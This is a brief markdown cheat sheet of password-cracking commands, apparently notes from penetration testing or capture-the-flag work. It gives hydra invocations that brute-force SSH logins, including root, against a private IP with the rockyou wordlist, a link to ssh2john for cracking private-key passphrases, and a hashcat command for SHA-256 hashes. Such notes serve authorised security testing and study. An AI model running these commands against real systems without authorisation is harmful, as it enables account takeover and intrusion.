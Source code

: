 # Password Crack Methods

## SSH Bruteforce

```
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.105 -t 4 ssh

hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.105 -t 4 ssh -s 22022 //-s for different port

hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 192.168.1.105 -t 4 ssh

```

## RSA Private Key crack using ssh2john

1. Link to download tool

https://github.com/koboi137/john/blob/bionic/ssh2john.py

2. Steps

https://www.hackingarticles.in/beginners-guide-for-john-the-ripper-part-2/

## Hashcat command to crack password

```
hashcat -m 1400 hashes.txt /usr/share/wordlists/rockyou.txt
```
